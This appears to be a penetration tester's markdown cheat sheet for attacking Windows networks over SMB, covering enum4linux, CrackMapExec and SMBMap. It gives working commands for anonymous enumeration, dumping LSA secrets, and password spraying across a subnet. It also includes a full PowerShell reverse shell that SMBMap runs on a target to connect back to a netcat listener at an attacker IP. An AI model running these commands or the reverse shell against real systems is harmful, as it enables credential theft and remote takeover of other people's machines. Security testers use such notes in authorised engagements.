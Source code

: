 ## enum4linux
- Use enum4linux to enumerate Windows systems from Kali
    - Requires the Samba package; this is essentially a wrapper around smbclient, rpcclient, net, nmblookup, and other tools
    - `enum4linux -v -a <IP_address>` Runs "all" options, with verbose
    - By default, enum4linux will try to use a username of "" and a password of "" to attempt to enumerate via anonymous sessions
    - Generally, target domain controllers to try to collect information about the domain
- If able to retrieve a user list from the domain, try password spraying next!

## CrackMapExec
- Use CME to dump LSA secrets from the target system "hostname01"
    - `cme smb hostname01 -u username -p password -d example.local --lsa`
- Use CME to password spray (try a **few** weak passwords with many usernames, careful to prevent account lockout)
    - `crackmapexec smb 10.10.10.0/24 -d example.local -u /tmp/userlist.txt -p Winter2021!`

## SMBMap
- Basic usage to find open shares on a list of hosts
    - `smbmap --host-file ~/Desktop/HostList.txt -d example.local`
- Use with creds for more visibility
    - WARNING: This _might_ print things?? (Consider filtering out printers from your host list, if this info is available from Nessus)
    - `smbmap --host-file ~/Desktop/HostList.txt -d example.local -u exampleuser -p password123`
- Get a reverse shell with SMBMap
    - Netcat listener
        - `nc -nvlp 4445`
    - Be sure to change the IP in the command (variable $a) to your listener IP
        ```
        smbmap -u username -p password -d example.local -H 192.168.0.1 -s C$ -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"'
        ```
- Other SMBMap tips
    - https://github.com/ShawnDEvans/smbmap

## File Transfers
- Host a file or directory using a python webserver
    - `python -m SimpleHTTPServer`
    - `python3 -m http.server`
- Retrieve a file hosted on a python webserver using curl
    - `curl 192.168.0.1:8000/file.exe --output file.exe`
- Share out a folder on the source machine, then map that folder as a drive on the destination machine
    - Remember to unshare folders and unmap drives when finished
- It's okay to use simple methods, if applicable
    - SharePoint
    - ShareFile